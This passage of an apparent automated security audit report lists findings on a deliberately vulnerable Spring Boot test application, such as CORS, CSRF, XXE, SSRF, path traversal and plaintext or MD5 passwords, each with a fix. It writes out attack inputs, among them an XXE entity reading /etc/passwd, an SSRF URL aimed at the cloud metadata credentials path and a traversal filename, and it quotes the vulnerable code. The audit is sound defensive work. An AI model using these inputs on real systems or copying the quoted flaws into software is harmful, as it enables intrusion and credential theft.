**Issue:** An attacker hosts a malicious page at http://evil.example.com and tricks a victim who holds an active application session into visiting it. The attacker's JavaScript sends credentialed cross-origin requests (XMLHttpRequest with withCredentials: true) targeting the application API.

Because `CorsPolicyFilter.isTrustedOrigin()` at line 32 accepts any string beginning with 'http', the application echoes the attacker's Origin back in Access-Control-Allow-Origin and also emits Access-Control-Allow-Credentials: true. Any attacker-controlled HTTP/HTTPS origin can read credentialed API responses from a victim's active browser session, exposing all data the victim is authorised to access.

**Evidence:** ✓ verified - `CorsPolicyFilter.isTrustedOrigin()` at line 32 returns true for any non-null String prefixed with 'http', making all HTTP and HTTPS origins trusted without any allowlist.

**Fix:** Replace the wildcard CORS origin with an explicit allow-list → ◕ [M-018](#m-018) — Replace substring match in CorsPolicyFilter with an explicit origin allowlist (`CorsPolicyFilter.java:32`)

**Classification:** Broken Access Control · [CWE-942](https://cwe.mitre.org/data/definitions/942.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-019"></a><a id="f-019"></a>
#### F-019 · CSRF Protection Disabled Application-Wide (SecurityConfig.java:28)

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Authentication Service  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:28`

**Issue:** `SecurityConfig.securityFilterChain()` disables CSRF protection unconditionally via .csrf(AbstractHttpConfigurer::disable) at line 28. The application uses form-based login with cookies (httpBasic and formLogin are both configured).

Any attacker-controlled page can issue cross-origin state-changing requests - including POST /register (creates accounts), POST /login (credential submission), and any authenticated POST/PUT/DELETE endpoint - and a victim's browser will attach the session cookie automatically. Unauthenticated third-party pages can perform any authenticated state-changing operation on behalf of a logged-in user, including account creation and data mutation.

**Evidence:** ✓ verified - `SecurityConfig.java:28` explicitly invokes AbstractHttpConfigurer::disable on the CSRF configurer, removing all CSRF token enforcement for session-cookie–authenticated requests.

**Fix:** Enforce a same-origin or signed CSRF token on every state-changing endpoint → ◕ [M-019](#m-019) — Re-enable Spring Security CSRF and configure SameSite=Strict on session cookies (`SecurityConfig.java:28`)

**Classification:** Cross-Site Request Forgery (CSRF) · [CWE-352](https://cwe.mitre.org/data/definitions/352.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-020"></a><a id="f-020"></a>
#### F-020 · Hand-rolled XOR / repeating-key cipher src/main/java/com/example/appsecverifica…

**Severity:** 🟠 High  ·  **Component:** [C-05](#c-05) - Cryptography and Token Service  ·  **Location:** Multiple locations (2)

**Weakness:** [W-004](#w-004) - Cryptographic security is implemented in application code

**Instances (2):** `src/main/java/com/example/appsecverificationtarget/crypto/HomegrownCipher.java:14`, `src/main/java/com/example/appsecverificationtarget/crypto/HomegrownCipher.java:23`

**Issue:** A reversible home-grown cipher protecting tokens, passwords, or exported data can be broken without the key, disclosing every protected value.

**Evidence:** ✓ verified - A broken or non-password cryptographic primitive is configured on this path.

**Fix:** Replace the broken algorithm with a vetted modern primitive (AES-GCM / Argon2id / Ed25519) → ◕ [M-020](#m-020) — Use an authenticated cipher (AES-GCM) from a vetted library; never a hand-rolled XOR. (`HomegrownCipher.java:14`)

**Classification:** Cryptographic Failures · [CWE-327](https://cwe.mitre.org/data/definitions/327.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-022"></a><a id="f-022"></a>
#### F-022 · Predictable OTP from Non-Cryptographic PRNG (LegacyTokenService.java:10)

**Severity:** 🟠 High  ·  **Component:** [C-05](#c-05) - Cryptography and Token Service  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/crypto/LegacyTokenService.java:10`

**Weakness:** [W-005](#w-005) - Security-sensitive data uses weak cryptographic primitives

**Issue:** An attacker calls `GET /api/crypto/otp` multiple times to observe a sequence of OTP values. `java.util.Random` is a linear congruential generator seeded from the system clock at startup.

By collecting two to three consecutive OTP values, an attacker can reconstruct the full internal state of the PRNG and predict all subsequent OTPs without server interaction. An attacker predicts future OTP values offline, allowing bypass of any authentication or transaction-confirmation step protected by this PRNG.

**Evidence:** ✓ verified - `LegacyTokenService.java:10` declares `private final Random random = new Random()`. The LCG seed is deterministic from a single observed output sequence, enabling offline PRNG-state recovery.

```java
// src/main/java/com/example/appsecverificationtarget/crypto/LegacyTokenService.java:10
public class LegacyTokenService {

    private final Random random = new Random();

    public String nextOtp() {
```

**Fix:** Switch to a cryptographically secure RNG (`crypto.randomBytes` / OS `/dev/urandom`) → ◕ [M-021](#m-021) — Replace `java.util.Random` with `java.security.SecureRandom` in LegacyTokenService (`LegacyTokenService.java:10`)

**Classification:** Cryptographic Failures · [CWE-330](https://cwe.mitre.org/data/definitions/330.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-023"></a><a id="f-023"></a>
#### F-023 · Path Traversal Write via Unsanitized Upload Filename

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Spring Boot Web Application  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/web/BusinessFileStorage.java:23`

**Weakness:** [W-002](#w-002) - Input handling lacks enforced boundary validation

**Issue:** `BusinessFileStorage.store()` at line 17 takes the upload filename directly from `file.getOriginalFilename()` without sanitization. At line 23, it resolves the target path via directory.resolve(fileName), where directory is under runtime/uploads/<area>/<recordId>/.

Java's `Path.resolve()` does not strip traversal sequences: a filename of ../../../../app/target/appsec-verification-target-0.0.1-`SNAPSHOT.jar` resolves (from /app/runtime/uploads/documents/1/) to /app/target/appsec-verification-target-0.0.1-`SNAPSHOT.jar`, overwriting the application JAR. An authenticated attacker can overwrite application binaries, configuration files, or credential stores, enabling persistent code modification or denial of service.

**Evidence:** ✓ verified - `BusinessFileStorage.java:23` calls directory.resolve(fileName) where fileName is the raw `getOriginalFilename()` result (line 17), with no `normalize()` call and no startsWith(directory) containment check before file.transferTo(target) at line 24.

```java
// src/main/java/com/example/appsecverificationtarget/web/BusinessFileStorage.java:23
        Path directory = Path.of("runtime", "uploads", area, String.valueOf(recordId));
        Files.createDirectories(directory);
        Path target = directory.resolve(fileName);
        file.transferTo(target);
        return new StoredFile(fileName, file.getContentType(), target.toString());
```

**Fix:** Resolve and normalise every constructed path and reject anything that escapes the intended base directory → ◕ [M-022](#m-022) — Sanitize the upload filename and verify the resolved write path stays within the upload directory (`BusinessFileStorage.java:23`)

**Classification:** Insecure File Handling · [CWE-22](https://cwe.mitre.org/data/definitions/22.html) · [OWASP A06:2025](https://owasp.org/Top10/2025/A06_2025-Insecure_Design/)

<a id="t-024"></a><a id="f-024"></a>
#### F-024 · World-Writable File Permissions on All Container Files (Dockerfile:26)

**Severity:** 🟠 High  ·  **Component:** [C-07](#c-07) - File Storage  ·  **Location:** `runtime/uploads`

**Issue:** Dockerfile line 26 runs chmod -R 777 /app /app/runtime, making every file in the application directory - including application JARs, configuration files, and all uploaded content - writable by any process running in the container under any UID. In a misconfigured container-runtime scenario (shared namespace, sidecar injection, compromised dependency process), any code executing in the container can modify application binaries, configuration, or uploaded documents without requiring elevated privileges.

A malicious insider (ACT-D-05) with deployment-pipeline access who can inject a sidecar or exec into the container gains full file modification capability without needing to exploit the root user's privileges separately. Any process executing in the container - regardless of the user it runs as - can read, modify, or delete application files, uploaded documents, and credential stores.

**Evidence:** Dockerfile:26 runs chmod -R 777 /app /app/runtime unconditionally during image build, setting world-write permission on all files in the application and runtime directories.

**Fix:** ◕ [M-023](#m-023) — Remove world-writable permissions and run the JVM as a non-root user in the container (`uploads`)

**Classification:** Broken Access Control · [CWE-732](https://cwe.mitre.org/data/definitions/732.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-025"></a><a id="f-025"></a>
#### F-025 · XML External Entity Injection (XmlPreviewController.java:22)

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Spring Boot Web Application  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/serverside/XmlPreviewController.java:22`

**Issue:** An attacker posts a crafted XML document to POST /api/xml/preview that declares a DOCTYPE with an external entity: <!DOCTYPE x [<!ENTITY xxe SYSTEM 'file:///etc/passwd'>]><root>&xxe;</root>. `XmlPreviewController.preview()` at line 22 creates a DocumentBuilderFactory with its default configuration, which leaves external entity processing enabled.

The parser resolves the file:/// entity, embeds the file content in the document tree, and the attacker can extract it through subsequent XML references or error messages. An unauthenticated attacker can read arbitrary local files via file:// entities, probe internal services via http:// entities (chained SSRF), or crash the JVM through entity-expansion bombs.

**Evidence:** ✓ verified - `XmlPreviewController.preview()` at line 22 calls `DocumentBuilderFactory.newInstance()` without disabling `FEATURE_SECURE_PROCESSING`, setFeature for external entities, or setExpandEntityReferences(false), leaving the parser in its default XXE-permissive state.

```java
// src/main/java/com/example/appsecverificationtarget/serverside/XmlPreviewController.java:22
    @PostMapping(value = "/preview", consumes = {MediaType.APPLICATION_XML_VALUE, MediaType.TEXT_XML_VALUE, MediaType.TEXT_PLAIN_VALUE})
    public Map<String, Object> preview(@RequestBody String xml) throws Exception {
        DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
        DocumentBuilder builder = factory.newDocumentBuilder();
        Document document = builder.parse(new InputSource(new StringReader(xml)));
```

**Fix:** Disable external entity resolution on every XML parser and reject DOCTYPE declarations → ◕ [M-024](#m-024) — Harden DocumentBuilderFactory in XmlPreviewController to disable external entity processing (`XmlPreviewController.java:22`)

**Classification:** Insecure File Handling · [CWE-611](https://cwe.mitre.org/data/definitions/611.html) · [OWASP A06:2025](https://owasp.org/Top10/2025/A06_2025-Insecure_Design/)

<a id="t-026"></a><a id="f-026"></a>
#### F-026 · Server-Side Request Forgery (IntegrationController.java:23)

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Spring Boot Web Application  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/serverside/IntegrationController.java:23`

**Issue:** An attacker sends GET /api/integration/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/. `IntegrationController.fetch()` at line 23 passes the caller-supplied url parameter directly to `restTemplate.getForObject()` without any scheme restriction, hostname allowlist, or SSRF guard.

The RestTemplate connects to the AWS instance metadata service and returns the first 2000 characters of the response - including temporary IAM credentials - in the JSON body. An unauthenticated attacker can force the application to make HTTP requests to internal infrastructure, the cloud metadata service, or localhost services, enabling credential theft and internal network reconnaissance.

**Evidence:** ✓ verified - `IntegrationController.fetch()` at line 23 calls restTemplate.getForObject(url, String.class) where url is the unvalidated query parameter, with no URL parsing, scheme check, or hostname allowlist before the network request is issued.

```java
// src/main/java/com/example/appsecverificationtarget/serverside/IntegrationController.java:23
    @GetMapping("/fetch")
    public Map<String, Object> fetch(@RequestParam String url) {
        String body = restTemplate.getForObject(url, String.class);
        String response = body == null ? "" : body.substring(0, Math.min(body.length(), 2000));
        return Map.of(
```

**Fix:** Validate the URL scheme + host against an explicit allow-list before issuing outbound requests → ◕ [M-025](#m-025) — Validate and allowlist target URLs before issuing HTTP requests in IntegrationController (`IntegrationController.java:23`)

**Classification:** Server-Side Request Forgery · [CWE-918](https://cwe.mitre.org/data/definitions/918.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-027"></a><a id="f-027"></a>
#### F-027 · Missing Security Event Logging

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - Authorization and Access Control Layer  ·  **Location:** Multiple locations (6)

**Instances (6):** 🟠 `src/main/java/com/example/appsecverificationtarget/accesscontrol/ProfileController.java:35`, 🟠 `src/main/java/com/example/appsecverificationtarget/authentication/CredentialLoggingFilter.java:None`, 🟠 `src/main/java/com/example/appsecverificationtarget/crypto/CustomCryptoController.java:40`, 🟡 `src/main/java/com/example/appsecverificationtarget/domain/AppUser.java:12`, 🟠 `src/main/java/com/example/appsecverificationtarget/serverside/FileReadController.java:18`, 🟡 `src/main/java/com/example/appsecverificationtarget/inputvalidation/OrderSearchController.java:24`

**Issue:** None of the access control controllers (OrderAccessController, UserAccessController, AdminReportController, ProfileController, DocumentDecisionController, LegacyAdminBoardController) write any security-relevant log entries. An attacker who exploits the IDOR paths, the mass assignment privilege escalation, or the unauthenticated legacy admin board leaves no forensic trail: no log of which orders or user profiles were accessed under which session, no record of role changes or admin promotions, and no record of admin report accesses.

During a post-incident investigation, there is no evidence to reconstruct the scope or timeline of the breach. Inability to detect, scope, or attribute an active or historical breach involving IDOR exploitation or privilege escalation, violating the accountability principle required for incident response and compliance.

**Evidence:** ✓ verified - A search across all six access-control controllers reveals no calls to any logger (`Logger`, `log.info`, `AuditLog`, `SecurityEvent`) on authorization-decision code paths; the controllers interact only with JPA repositories and Spring's `ResponseEntity`.

```java
// src/main/java/com/example/appsecverificationtarget/accesscontrol/ProfileController.java:35

    @PutMapping("/me")
    public ResponseEntity<ProfileResponse> update(Authentication authentication, @RequestBody AppUser incoming) {
        return appUserRepository.findByUsername(authentication.getName())
                .map(current -> {
```

**Fix:** ◕ [M-026](#m-026) — Add structured security-event logging to all authorization decision points in access control controllers (`ProfileController.java:35`)

**Classification:** Missing Audit Logging & Accountability · [CWE-778](https://cwe.mitre.org/data/definitions/778.html) · [OWASP A09:2025](https://owasp.org/Top10/2025/A09_2025-Security_Logging_and_Alerting_Failures/)

<a id="t-028"></a><a id="f-028"></a>
#### F-028 · Missing Authorization (AdminReportController.java:35)

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - Authorization and Access Control Layer  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/accesscontrol/AdminReportController.java:35`

**Weakness:** [W-003](#w-003) - Authorization is implemented route by route

**Issue:** `SecurityConfig.java:34` explicitly registers `requestMatchers(HttpMethod.GET, "/api/admin/report").permitAll()`, granting unauthenticated access to the admin reporting endpoint. `AdminReportController.java:35` carries no `@PreAuthorize` annotation and no runtime role check.

Any anonymous caller can issue `GET /api/admin/report` and receive the count of all users, orders, and documents, plus tenant-level status breakdowns from `reportLookupDao.statusCountsForTenant()`. Anonymous callers learn user, order, and document counts plus tenant status breakdown, leaking business intelligence that should be restricted to administrators.

**Evidence:** ✓ verified - `AdminReportController.java:35` defines the `report()` method with no `@PreAuthorize` or `Authentication` parameter, and `SecurityConfig.java:34` explicitly sets this path to `permitAll()` rather than requiring `ROLE_ADMIN`.

```java
// src/main/java/com/example/appsecverificationtarget/accesscontrol/AdminReportController.java:35

    @GetMapping("/report")
    public Map<String, Object> report() {
        return Map.of(
                "users", appUserRepository.count(),
```

**Fix:** ◕ [M-027](#m-027) — Restrict GET /api/admin/report to `ROLE_ADMIN` with @PreAuthorize and remove the permitAll rule (`AdminReportController.java:35`)

**Classification:** Broken Access Control · [CWE-862](https://cwe.mitre.org/data/definitions/862.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-029"></a><a id="f-029"></a>
#### F-029 · Plaintext Password Logged on Every Login (CredentialLoggingFilter.java:25)

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Authentication Service  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/authentication/CredentialLoggingFilter.java:25`

**Issue:** `CredentialLoggingFilter.doFilterInternal()` intercepts every POST /login request and logs the raw username and password via `log.info`("Processing sign-in for username={} password={}", username, password) at line 25. Slf4j writes this to the application log file or log aggregation system (e.g. ELK, Splunk) at INFO level.

A malicious insider with read access to log infrastructure (ACT-D-05) can collect all user passwords from log history without touching the database. Every user's plaintext password is written to the application log on each login; log access is sufficient to credential-harvest all active accounts.

**Evidence:** ✓ verified - `CredentialLoggingFilter.java:25` passes the password form parameter directly to `log.info()` as a positional argument alongside the username.

```java
// src/main/java/com/example/appsecverificationtarget/authentication/CredentialLoggingFilter.java:25
            String username = request.getParameter("username");
            String password = request.getParameter("password");
            log.info("Processing sign-in for username={} password={}", username, password);
        }
        filterChain.doFilter(request, response);
```

**Fix:** Strip secrets and PII from every log sink and rotate any token that already leaked → ◕ [M-028](#m-028) — Remove CredentialLoggingFilter entirely; if login tracing is needed, log only the username and outcome, never the password (`CredentialLoggingFilter.java:25`)

**Classification:** Missing Audit Logging & Accountability · [CWE-532](https://cwe.mitre.org/data/definitions/532.html) · [OWASP A09:2025](https://owasp.org/Top10/2025/A09_2025-Security_Logging_and_Alerting_Failures/)

<a id="t-030"></a><a id="f-030"></a>
#### F-030 · MD5 Password Hash Used in Registration Path (RegistrationController.java:55)

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Authentication Service  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/authentication/RegistrationController.java:55`

**Weakness:** [W-005](#w-005) - Security-sensitive data uses weak cryptographic primitives

**Issue:** `RegistrationController.register()` calls legacyPasswordService.hashForAudit(password) at line 55 and stores the result in the AppUser entity's password field. `LegacyPasswordService.hashForAudit()` computes a raw MD5 digest with no salt (MessageDigest.getInstance("MD5")).

The AppUser record is persisted to the main application database. Any attacker who obtains a database dump can recover all registered user passwords from MD5 hashes in minutes using commodity GPU hardware and standard wordlists.

**Evidence:** ✓ verified - `RegistrationController.java:55` passes the plaintext password to `LegacyPasswordService.hashForAudit()`; that method at `LegacyPasswordService.java:15` applies unsalted MD5 with no computational cost.

**Fix:** Replace the broken hash with a salted password-hashing function (bcrypt/Argon2id) → ◕ [M-029](#m-029) — Remove the MD5 hash from AppUser storage; rely solely on Spring Security's BCrypt credential store (`RegistrationController.java:55`)

**Classification:** Cryptographic Failures · [CWE-916](https://cwe.mitre.org/data/definitions/916.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-031"></a><a id="f-031"></a>
#### F-031 · Dockerfile base image must be digest-pinned

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Spring Boot Web Application  ·  **Location:** `Dockerfile:1`

**Issue:** Dockerfile base image must be digest-pinned in Dockerfile:1. Tag-only base images (FROM node:24) can be silently substituted by a malicious publisher. Digest-pinning (@sha256:…) ensures the exact image bytes are used on every build.

**Evidence:** ✓ verified

```dockerfile
// Dockerfile:1
# Intentionally insecure container image for the appsec-verification-target fixture.
# This is a scan target, not a packaging example. Do not harden.

```

**Fix:** Replace the unmaintained dependency with a maintained equivalent or fork it under ownership → ◕ [M-030](#m-030) — Pin base image to @sha256:<digest> (`Dockerfile:1`)

**Classification:** Supply-Chain Integrity · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html) · [OWASP A03:2025](https://owasp.org/Top10/2025/A03_2025-Software_Supply_Chain_Failures/)

<a id="t-032"></a><a id="f-032"></a>
#### F-032 · Hardcoded Symmetric Encryption Keys

**Severity:** 🟠 High  ·  **Component:** [C-05](#c-05) - Cryptography and Token Service  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/crypto/LegacyCryptoService.java:13`

**Issue:** Two symmetric keys are embedded as string literals in source code: `"orderdesk-legacy-key"` at `HomegrownCipher.java:8` and `"0123456789abcdef"`. Any developer, contractor, or attacker who obtains repository access (via source-code hosting breach, leaked credentials, or insider access) immediately possesses both keys.

With the XOR key, they can decrypt every value protected by HomegrownCipher without touching the production API. Any party with repository read access can decrypt every protected credential and export value offline, without triggering any server-side log or rate limit.

**Evidence:** ✓ verified - `HomegrownCipher.java:8` declares `private static final byte[] KEY = "orderdesk-legacy-key".getBytes(UTF_8)` and `LegacyCryptoService.java:13` declares `private static final String EXPORT_KEY = "0123456789abcdef"`. Both keys are committed to version control.

**Fix:** Move the cryptographic key out of source control into a managed secret store and rotate it → ◕ [M-031](#m-031) — Move all symmetric keys to a secrets manager and inject via environment variables or @Value properties (`LegacyCryptoService.java:13`)

**Classification:** Cryptographic Failures · [CWE-321](https://cwe.mitre.org/data/definitions/321.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-033"></a><a id="f-033"></a>
#### F-033 · Unsalted MD5 Password Hashing (LegacyPasswordService.java:15)

**Severity:** 🟠 High  ·  **Component:** [C-05](#c-05) - Cryptography and Token Service  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/crypto/LegacyPasswordService.java:15`

**Weakness:** [W-005](#w-005) - Security-sensitive data uses weak cryptographic primitives

**Issue:** A caller submits any password to `GET /api/crypto/password-digest?password=<value>`. `LegacyPasswordService.java:15` computes MD5 with no salt and returns the hex digest.

MD5 is a broken collision-resistant hash with no work factor. Any password hashed by this service is effectively stored in the clear for any attacker with rainbow-table access, enabling mass credential recovery after a database breach.

**Evidence:** ✓ verified - `LegacyPasswordService.java:15` calls `MessageDigest.getInstance("MD5")` with no salt input. The resulting digest is deterministic per-password across all instances, enabling rainbow-table lookup.

**Fix:** Replace the broken hash with a salted password-hashing function (bcrypt/Argon2id) → ◕ [M-032](#m-032) — Replace MD5 with BCrypt in LegacyPasswordService.hashForAudit and remove the public hashing endpoint (`LegacyPasswordService.java:15`)

**Classification:** Cryptographic Failures · [CWE-916](https://cwe.mitre.org/data/definitions/916.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-034"></a><a id="f-034"></a>
#### F-034 · Cleartext Password Storage in SQLite Database

**Severity:** 🟠 High _(raw Critical)_  ·  **Component:** [C-02](#c-02) - Authentication Service  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/authentication/LegacySqliteUserStore.java:37`

**Issue:** When `LegacySqliteUserStore.initialize()` seeds the `legacy_users` table (lines 37–39), it stores passwords as plaintext strings: `save("legacy_alice", "password", "USER")`, `save("legacy_admin", "admin", "ADMIN")`. The `legacy_users` table schema (lines 27–34) defines `password text not null` with no hashing.

An attacker who obtains the SQLite file `runtime/legacy-auth.sqlite` - via directory traversal, backup exposure, or the file-read endpoint - reads all credentials immediately with no cracking step. All legacy user passwords are readable without decryption from the SQLite file.

Password reuse by users means this exposure extends to other systems the same credentials protect.

**Evidence:** ✓ verified - `LegacySqliteUserStore.java:27-34` defines `password text not null` in the table DDL; line 37 calls `save("legacy_alice", "password", "USER")` - writing the literal string `"password"` into the password column.

```java
// src/main/java/com/example/appsecverificationtarget/authentication/LegacySqliteUserStore.java:37
        }
        if (countUsers() == 0) {
            save("legacy_alice", "password", "USER");
            save("legacy_bob", "password", "USER");
            save("legacy_admin", "admin", "ADMIN");
```

**Fix:** ◕ [M-033](#m-033) — Hash all passwords with bcrypt before storing them in the SQLite legacy_users table (`LegacySqliteUserStore.java:37`)

**Classification:** Cryptographic Failures · [CWE-256](https://cwe.mitre.org/data/definitions/256.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-035"></a><a id="f-035"></a>
#### F-035 · Cleartext Password Enumeration via Public API

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Authentication Service  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/authentication/LegacySqliteUserStore.java:77`

**Issue:** An attacker sends `GET /api/legacy-sqlite/users` (no authentication required - `SecurityConfig.java:40` lists `/api/legacy-sqlite/**` as `permitAll()`). `LegacySqliteAuthController.users()` (line 50) calls `legacySqliteUserStore.findAll()` (`LegacySqliteUserStore.java:77`), which issues `SELECT id, username, password, role FROM legacy_users` and maps the plaintext `password` column into the response object.

The HTTP response contains every user's username and cleartext password in a single unauthenticated request. Any unauthenticated internet user obtains all legacy account credentials - including the `legacy_admin` password - in a single HTTP GET request with no exploit needed beyond a browser.

**Evidence:** ✓ verified - `LegacySqliteUserStore.findAll()` at line 82 reads `resultSet.getString("password")` into `LegacySqliteUser.password`, and `LegacySqliteAuthController.users()` at line 51 serializes this via `legacySqliteUserStore.findAll()` on a `permitAll()` endpoint.

```java
// src/main/java/com/example/appsecverificationtarget/authentication/LegacySqliteUserStore.java:77
    }

    public List<LegacySqliteUser> findAll() {
        try (Connection connection = connection();
             PreparedStatement statement = connection.prepareStatement("""
```

**Fix:** ◕ [M-034](#m-034) — Remove the password field from the LegacySqliteUser API response and require authentication on the /api/legacy-sqlite/users endpoint (`LegacySqliteUserStore.java:77`)

**Classification:** Broken Authentication · [CWE-522](https://cwe.mitre.org/data/definitions/522.html) · [OWASP A07:2025](https://owasp.org/Top10/2025/A07_2025-Authentication_Failures/)

<a id="t-036"></a><a id="f-036"></a>
#### F-036 · Legacy Credential Database Baked Into Container Image Layers

**Severity:** 🟠 High  ·  **Component:** [C-06](#c-06) - Data Persistence Layer  ·  **Location:** `runtime/legacy-auth.sqlite`

**Issue:** Dockerfile line 17 runs COPY . /app, which copies the entire build context - including runtime/legacy-auth.sqlite - into the container image.

The file is confirmed present in the repository. Credential material stored in the legacy SQLite database is exposed to anyone with image registry access or unauthenticated HTTP access to the running container.

**Evidence:** ◌ ambiguous - runtime/legacy-auth.sqlite exists in the repository and is captured verbatim by COPY . /app in Dockerfile:17; the path traversal in `FileReadController.java:19` makes it directly fetchable via the unauthenticated /api/files/read endpoint.

**Fix:** ◕ [M-035](#m-035) — Exclude runtime/ credential stores from the Docker build context and purge them from image layers (`legacy-auth.sqlite`)

**Classification:** Cryptographic Failures · [CWE-312](https://cwe.mitre.org/data/definitions/312.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-037"></a><a id="f-037"></a>
#### F-037 · Missing Authorization (LegacyAdminBoardController.java:37)

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - Authorization and Access Control Layer  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/legacyadmin/LegacyAdminBoardController.java:37`

**Weakness:** [W-003](#w-003) - Authorization is implemented route by route

**Issue:** `SecurityConfig.java:41` places `/legacy/admin/**` under `permitAll()` and CSRF is disabled globally (`SecurityConfig.java:28`). `LegacyAdminBoardController.java:37-40` implements `POST /legacy/admin/users/{id}/delete` which calls `appUserRepository.delete(load(id))` - permanently removing the user record.

An anonymous attacker with no credentials can delete every user account in the database by iterating numeric IDs (1, 2, 3 …). Complete deletion of all user accounts from the database without authentication, permanently locking out all users and operators until accounts are restored from backup.

**Evidence:** ✓ verified - `LegacyAdminBoardController.java:37` implements a `POST /legacy/admin/users/{id}/delete` handler that calls `appUserRepository.delete(load(id))` with no authentication guard, reachable because `SecurityConfig.java:41` permits all requests to `/legacy/admin/**`.

```java
// src/main/java/com/example/appsecverificationtarget/legacyadmin/LegacyAdminBoardController.java:37
    }

    @PostMapping("/legacy/admin/users/{id}/delete")
    public String delete(@PathVariable Long id) {
        appUserRepository.delete(load(id));
```

**Fix:** ◕ [M-036](#m-036) — Restrict POST /legacy/admin/users/{id}/delete to `ROLE_ADMIN` or remove the legacy admin board entirely (`LegacyAdminBoardController.java:37`)

**Classification:** Broken Access Control · [CWE-862](https://cwe.mitre.org/data/definitions/862.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-038"></a><a id="f-038"></a>
#### F-038 · No Rate Limiting on Auth Endpoints Enables Credential Stuffing

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Authentication Service  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:30`

**Issue:** SecurityConfig configures no rate-limiting middleware anywhere in the filter chain. POST /login, POST /register, POST /api/legacy-sqlite/login, and GET /api/legacy-sqlite/login-raw are all reachable without authentication and without any per-IP or per-account request throttle.

An anonymous internet attacker (ACT-D-01) can run a credential-stuffing campaign against POST /login using breach-derived password lists at the maximum throughput the server allows. Credential stuffing at scale against all login paths; account enumeration via timing differences; potential DoS on registration by bulk account creation.

**Evidence:** ✓ verified - `SecurityConfig.java` configures no rate-limit filter before the authentication endpoints; grep for rateLimit|RateLimiter|throttle|Bucket4j across src/main/java/ returns zero hits.

```java
// src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:30
                .csrf(AbstractHttpConfigurer::disable)
                .headers(headers -> headers.frameOptions(HeadersConfigurer.FrameOptionsConfig::sameOrigin))
                .authorizeHttpRequests(authorize -> authorize
                        .requestMatchers("/", "/login", "/register", "/assets/**").permitAll()
                        .requestMatchers("/h2-console/**").permitAll()
```

**Fix:** Apply rate limiting and lock-out thresholds on authentication endpoints → ◕ [M-037](#m-037) — Add per-IP and per-account rate limiting on all authentication endpoints using Bucket4j or spring-cloud-gateway (`SecurityConfig.java:30`)

**Classification:** Broken Authentication · [CWE-307](https://cwe.mitre.org/data/definitions/307.html) · [OWASP A07:2025](https://owasp.org/Top10/2025/A07_2025-Authentication_Failures/)

<a id="t-039"></a><a id="f-039"></a>
#### F-039 · Unbounded File Read Exhausts JVM Heap via Path Traversal

**Severity:** 🟠 High  ·  **Component:** [C-07](#c-07) - File Storage  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/serverside/FileReadController.java:22`

**Issue:** `FileReadController.read()` calls Files.readString(path) at line 22, which reads the entire file into a Java String in JVM heap memory. The endpoint is unauthenticated (`SecurityConfig.java:37` - `permitAll()`).

By combining this with the path traversal, an attacker can direct the read to a very large file (e.g., a large log file at /var/log/syslog, a memory-mapped special file, or /proc/kmsg). Unauthenticated concurrent requests to large or infinite files exhaust JVM heap and HTTP threads, taking the application offline.

**Evidence:** ✓ verified - `FileReadController.java:22` calls Files.readString(path) with no size guard; the endpoint is `permitAll()` at `SecurityConfig.java:37` with no rate-limiting middleware evident in the controller or its request mapping.

**Fix:** Bound the request rate and the per-request resource budget on this endpoint → ◕ [M-038](#m-038) — Add a file size guard and rate limiting to the /api/files/read endpoint (`FileReadController.java:22`)

**Classification:** Denial of Service · [CWE-400](https://cwe.mitre.org/data/definitions/400.html) · [OWASP A06:2025](https://owasp.org/Top10/2025/A06_2025-Insecure_Design/)

<a id="t-040"></a><a id="f-040"></a>
#### F-040 · Insecure Direct Object Reference

